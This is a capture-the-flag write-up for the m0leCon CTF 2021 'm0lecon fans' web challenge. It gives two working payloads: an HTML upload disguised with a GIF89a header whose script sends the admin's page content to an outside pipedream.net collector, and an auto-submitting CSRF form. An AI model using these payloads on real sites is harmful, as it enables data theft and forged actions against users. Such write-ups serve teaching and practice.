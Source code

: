 ## m0lecon fans - m0leCon CTF 2021 Teaser 
<hr />  
  
#### 1. Get admin subdomain  
  
Bypass with `gif file` file signature to bypass check extension and upload html file. Get DOM content from new feed in home page!!  
Payload was used
  
```
GIF89a
<script>
fetch('https://m0lecon.fans/feed/').then(r=>r.text()).then(d=>window.open('//enzv11vzyh17985.m.pipedream.net?d='+d.match(/<a href=".*\.m0lecon\.fans\/profile\/">/)[0]))
</script>
```  

![](./1.png)  
    
Access static file with URL: `https://m0lecon.fans/static/media/posts/<id>.html` and submit that link for admin bot.
  
![](./2.png)  
  
Admin subdomain: `https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/`    
  
#### 2. CSRF to follow admin page  
  
Request to follow admin  
![](./3.png)  
  
Upload html file via trick above to perform CSRF attack  
Payload was used  
  
```
GIF89a
<h1>hihi</h1>
<form class="" action="https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/request" method="post">
         <input type="hidden" name="id" value="<your-account-id>">
         <input type="submit" value="Accept" class="btn btn-light py-2 ml-3">
</form>
<script>
document.getElementsByTagName('form')[0].submit();
</script>
```
   
![](./6.png)  
  
Get that link to submit for admin bot and we followed admin  
  
![](./4.png)  
  
Finally, we can flag in title of first post  
  
![](./5.png)    
  
Flag: ` ptm{m4k3_CSP_r3ports_gr3a7_4gain!} `  
